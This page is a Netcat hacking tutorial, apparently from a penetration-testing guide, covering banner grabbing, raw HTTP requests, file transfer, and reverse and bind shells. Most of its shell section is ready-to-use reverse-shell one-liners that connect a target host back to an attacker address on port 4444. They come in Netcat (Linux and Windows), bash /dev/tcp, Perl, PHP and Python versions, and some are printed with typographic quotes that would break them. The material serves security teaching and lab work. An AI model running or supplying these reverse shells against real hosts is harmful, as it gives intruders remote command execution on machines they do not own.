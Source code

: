 ## Netcat

#### Netcat banner grabbing
```
$ nc [ip address][port]
```


#### Netcat raw connection

To demonstrate how a raw connection works we will issue some FTP commands after we’re connected to the target host on the FTP service. Let’s see if anonymous access is allowed on this FTP server by issuing the USER and PASS command followed by anonymous.


#### Web server interaction

Netcat can also be used to interact with webservers by issuing HTTP requests.
```
$ nc 192.168.100.108 80
```

and the run
```
HEAD / HTTP/1.0
```



To retrieve the top level page on the webserver we can issue the following command:

```
$ nc 192.168.100.108 80
```
and run the following HTTP request:
```
GET / HTTP/1.0
```
#### File transfers with Netcat

In this example we will be using a Netcat connection to transfer a text file. Let’s assume we have remote command execution on the target host and we want to transfer a file from the attack box to the host. First we would need to set up a listener on the target host and connect to it from the attack box. We will be using port 8080 for this purpose and we safe the file to the desktop:

```
$ nc -lvp 8080 > /root/Desktop/transfer.txt
```
On the attack box(our machine) we connect to port 8080 and send a file name transfer.txt:

```
$ nc 192.168.100.107 8080 < /root/Desktop/transfer.txt
```

### Netcat reverse shells

A very popular usage of Netcat and probably the most common use from penetration testing perspective are reverse shells and bind shells. A reverse shell is a shell initiated from the target host back to the attack box which is in a listening state to pick up the shell. A bind shell is setup on the target host and binds to a specific port to listens for an incoming connection from the attack box. In malicious software a bind shell is often revered to as a backdoor.

In the following paragraphs we will be demonstrating the use of bind and reverse shell. We will be using port 4444 throughout this tutorial but please note that this can be any open port instead. In fact, often you need to use more common ports like 80 and 443 to setup reverse shells as it is more common for these ports to be open.

#### Setting up Netcat Reverse Shells


![](just-data/ncatrevshell.jpg)

In order to setup a Netcat reverse shell we need to follow the following steps:

1. Setup a Netcat listener.
2. Connect to the Netcat listener from the target host.
3. Issue commands on the target host from the attack box.


First we setup a Netcat listener on the attack box which is listening on port 4444 with the following command:

```
$ nc –lvp 4444

```

Than we issue the following command on the target host to connect to our attack box (remember we have remote code execution on this box):

```
$ nc 192.168.100.113 4444 –e /bin/bash

```

for windows:
```
nc.exe 192.168.100.113 4444 –e cmd.exe
```

#### Reverse shell without Netcat on the target host

One major downside on the shown example is that you need Netcat on that target host which is very often not the case in real world scenario’s. In some cases Netcat is present, or we have a way to install it, but in many cases we need to use alternatives ways to connect back to the attack box. Let’s have a look at a few alternative ways to setup a reverse shell.

##### Bash reverse shell

With can also use Bash to initiate a reverse shell from the target host to the attack box by using the following command:

```
$ bash -i >& /dev/tcp/192.168.100.113/4444 0>&1
```

##### Perl reverse shell

```
$ perl -e ‘use Socket;$i=”192.168.100.113″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
```

##### PHP reverse shell

```
$ php -r ‘$sock=fsockopen(“192.168.100.113”,4444);exec(“/bin/sh -i <&3 >&3 2>&3”);’

```

##### Python reverse shell


```
$ python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’
```

#### Netcat Bind Shell

As we’ve mentioned earlier in this Hacking with Netcat tutorial a bind shell is a shell that binds to a specific port on the target host to listen for incoming connections. Let’s have a look at the visualization of a bind Netcat shell:


![](just-data/ncatbindshell.jpg)


In this visualization the target binds a Bash shell to port 4444 using a Netcat listener. The attacker connects to this port using a simple Netcat command. The steps to setup a bind shell are as following:


1. Bind a bash shell to port 4444 using Netcat.
2. Connect to the target host on port 4444 from the attack box.
3. Issue commands on the target host from the attack box.
